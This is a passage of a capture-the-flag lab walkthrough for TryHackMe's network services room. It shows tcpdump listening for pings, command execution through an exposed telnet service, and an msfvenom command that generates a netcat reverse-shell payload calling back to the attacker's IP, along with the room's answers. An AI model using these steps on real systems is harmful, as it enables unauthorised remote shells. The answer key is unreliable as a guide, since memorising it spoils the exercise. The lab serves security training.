 - <p>Start a tcpdump listener on your local machine.</p><p><b>If using your own machine with the OpenVPN connection, use:</b><br /></p><ul><li><code>sudo tcpdump ip proto \\icmp -i tun0</code></li></ul><p><b>If using the AttackBox, use:</b></p><ul><li><code>sudo tcpdump ip proto \\icmp -i ens5</code></li></ul><p>This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.<br /></p>

- <p>Now, use the command <b>"ping [local THM ip] -c 1" </b>through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)<br /></p>
```bash
.RUN ping <local THM ip> -c 1
```
![Guide image](./screenshots/network-services-10.png)
**=> Answer: `Y`**

- <p>We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:<br /></p><div style="font-size:14px;line-height:17px;-moz-tab-size:4;-o-tab-size:4;-webkit-tab-size:4;tab-size:4"><div><b><span>"msfvenom</span><span> </span><span>-</span><span>p</span><span> </span><span>cmd</span><span>/</span><span>unix</span><span>/</span><span>reverse_netcat </span><span>lhost</span><span>=[local tun0 ip]</span><span></span><span> </span><span>lport</span><span>=</span><span>4444</span><span> </span><span>R"</span></b></div><div><b><span><br /></span></b></div><div><span>-p = payload</span></div><div>lhost = our local host IP address (this is <b>your</b> machine's IP address)</div><div>lport = the port to listen on (this is the port on <b>your </b>machine)</div><div><span>R = export the payload in raw format<br /></span></div><div><span><br /></span></div><div><span>What word does the generated payload start with?<br /></span><b><span></span></b></div><div><span><br /></span></div></div>
![Guide image](./screenshots/network-services-11.png)
**=> Answer: `mkfifo`**
